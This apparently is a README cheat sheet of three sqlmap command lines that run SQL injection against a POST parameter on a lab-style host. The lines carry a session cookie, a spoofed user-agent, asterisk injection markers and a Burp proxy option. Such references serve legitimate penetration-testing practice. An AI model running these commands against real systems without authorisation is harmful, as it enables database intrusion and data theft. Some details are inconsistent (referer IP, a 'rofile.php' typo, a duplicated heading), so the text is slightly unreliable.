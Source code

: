 # SQLMapExamples
A list of sample SQL Map Injection Commands


## SQLMap Injection on POST parameter with a PHP Session ID
Here we have simple sql injection test agianst a single POST parameter
```
sqlmap.py -u "http://10.10.10.10/profile.php" --data="name=1234567890" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.176/profile.php" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is the same injection attack as above but using the astrix to inject at a predetermined postion for a MySQL database running on a Linux platform:
```
sqlmap.py -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.176/profile.php" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is a SQL injection attack which has been configured to run through a Proxy (BurpSuite)
```
sqlmap.py -u "http://10.10.10.10/rofile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.176/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```



